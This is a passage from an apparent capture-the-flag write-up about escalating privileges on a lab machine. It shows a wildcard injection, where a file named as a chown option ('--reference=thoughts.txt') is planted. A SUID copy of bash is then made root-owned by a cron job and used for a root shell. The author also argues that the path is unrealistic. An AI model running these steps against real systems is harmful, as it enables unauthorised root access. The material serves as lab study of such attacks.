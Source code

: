 
    [sec@shrek src]$ touch -- --reference=thoughts.txt
    [sec@shrek src]$ cp /bin/bash 0xdf
    [sec@shrek src]$ chmod +s 0xdf 
    [sec@shrek src]$ ls -l
    total 816
    -rwsr-sr-x 1 sec  users 828320 Jul 17 11:55  0xdf
    -rw-r--r-- 1 sec  users      0 Jul 17 11:55 '--reference=thoughts.txt'
    -rw-r--r-- 1 root root      91 Aug 22  2017  thoughts.txt



When the cron runs, `0xdf` is now owned by root, and still SUID:



    [sec@shrek src]$ ls -l
    total 816
    -rwsr-sr-x 1 root root  828320 Jul 17 11:55  0xdf
    -rw-r--r-- 1 sec  users      0 Jul 17 11:55 '--reference=thoughts.txt'
    -rw-r--r-- 1 root root      91 Aug 22  2017  thoughts.txt



And it will give me a root shell:



    [sec@shrek src]$ ./0xdf -p
    0xdf-4.4# 



I don't like this path because it is not realistic. It makes sense that
there are places in the real world running `chown nobody:nobdy *` on
directories, and that enables this wildcard attack. But it's incredibly
unlikely that any cron would then go back and re-add the SUID bit on
files that had it. That is kind of the opposite of why you would be
changing the owner. And this attack doesn't work without that bit in the
script. To demonstrate, I'll clear it out and set it up again:



    [sec@shrek src]$ cp /bin/bash 0xdf
    [sec@shrek src]$ chmod +s 0xdf 
    [sec@shrek src]$ touch -- --reference=thoughts.txt
    [sec@shrek src]$ ls -l
    total 816
    -rwsr-sr-x 1 sec  users 828320 Jul 17 12:12  0xdf
    -rw-r--r-- 1 sec  users      0 Jul 17 12:12 '--reference=thoughts.txt'
    -rw-r--r-- 1 root root      91 Aug 22  2017  thoughts.txt



Now as root, I'll run `chown nobody:nobody *`:



    0xdf-4.4# /usr/bin/chown nobody:nobody *
    /usr/bin/chown: cannot access 'nobody:nobody': No such file or directory
    /usr/bin/chown: changing ownership of 'thoughts.txt': Operation not permitted


